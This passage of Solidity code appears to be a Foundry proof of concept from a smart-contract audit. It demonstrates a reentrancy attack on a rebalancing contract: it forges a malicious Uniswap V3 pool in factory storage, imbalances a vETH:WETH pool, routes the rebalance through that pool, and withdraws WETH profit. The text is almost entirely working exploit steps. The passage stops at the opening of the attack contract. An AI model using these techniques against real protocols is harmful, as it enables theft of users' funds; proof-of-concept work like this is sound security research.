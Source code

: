 ```solidity
        getPoolSlot = keccak256(abi.encode(100, keccak256(abi.encode(address(evilERC20), keccak256(abi.encode(address(VETH), 5))))));
        vm.store(address(uniswapV3Factory), getPoolSlot, bytes32(uint256(uint160(maliciousEvil_vETH_pool))));
        require(IUniswapV3Factory(uniswapV3Factory).getPool(address(evilERC20), address(VETH), 100) == maliciousEvil_vETH_pool, "Malicious pool not found in factory");
    
        // Stop impersonating the hacker to put the pool in an imbalanced state
        vm.stopPrank();
    
        // Set the vETH:WETH pool in an imbalanced state where rebalancing would be profitable
        // This will imbalance the pool with a lack of vETH and a surplus of WETH
        uint256 amount = 422 ether;
        vm.deal(address(this), amount);
        uint256 _v3pool = uint256(uint160(uniswapPool)) | (_ONE_FOR_ZERO_MASK);
        uint256[] memory pools = new uint256[](1);
        pools[0] = _v3pool;
        uint256 amountOut0 = IDexRouter(OKXRouter).uniswapV3SwapTo{value: amount}(
            uint256(uint160(multiSign)),
            amount,
            0,
            pools
        );
    
        // Preview the rebalance to ensure it is profitable
        (bool result, uint256 directionMask, uint256 amountIn, uint256 amountOut) = lamboRebalance.previewRebalance();
        require(result, "Rebalance not profitable");
    
        // Log the hacker's WETH balance before the attack
        console.log("hacker WETH balance before attack  : %e", IERC20(WETH).balanceOf(hacker));
    
        // Start the attack by impersonating the hacker again
        vm.startPrank(hacker);
    
        // In the real world, the OKX router will send the vETH to the malicious pool, and on the evilERC20 transfer,
        // A new swap will be performed on the malicious pool to get back the vETH and perform the reentrancy attack
        // But cause of time constraint, I will just funds the attack contract with 500 ether of vETH and avoid this swap back =(
        deal(VETH, address(attack), amountIn);
    
        // Use the malicious pool mask instead of the legitimate one
        // The OKX router will point to the malicious pool thanks to the mask manipulation
        // When the evilERC20 will be transferred, the reentrancy attack will be started
        lamboRebalance.rebalance(maliciousPoolMask /* directionMask */, amountIn, amountOut);
    
        // Withdraw the WETH profit from the attack contract
        ReentrancyAttack(address(attack)).withdraw();
    
        // Stop impersonating the hacker
        vm.stopPrank();
    
        // Log the hacker's WETH balance after the attack
        console.log("");
        console.log("hacker WETH balance after attack   : %e", IERC20(WETH).balanceOf(hacker));
    }
}

contract ReentrancyAttack{

    address public VETH;
```